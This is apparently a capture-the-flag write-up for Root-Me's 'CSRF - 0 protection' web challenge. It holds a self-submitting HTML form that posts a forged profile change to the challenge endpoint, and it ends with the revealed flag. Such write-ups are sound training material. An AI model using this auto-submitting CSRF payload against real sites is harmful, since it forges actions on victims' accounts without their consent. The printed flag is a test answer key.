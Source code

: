 # CSRF - 0 protection

[![Hits](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2FTienNHM%2Froot-me-ctf%2Ftree%2Fmaster%2FWeb-Client%2FCSRF%2520-%25200%2520protection&count_bg=%2379C83D&title_bg=%232D8FFF&icon=markdown.svg&icon_color=%23092753&title=Visitors&edge_flat=false)](https://hits.seeyoufarm.com)

/ch22/?action=contact

```html
<form action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" name="csrf_form" enctype="multipart/form-data">
	<input type="text" name="username" value="user">
	<input type="checkbox" name="status" checked >
	<button type="submit">Submit</button>
</form>

<script>
	document.csrf_form.submit();
</script>
```

/ch22/?action=private
> Good job dude, flag is : Csrf_Fr33style-L3v3l1!
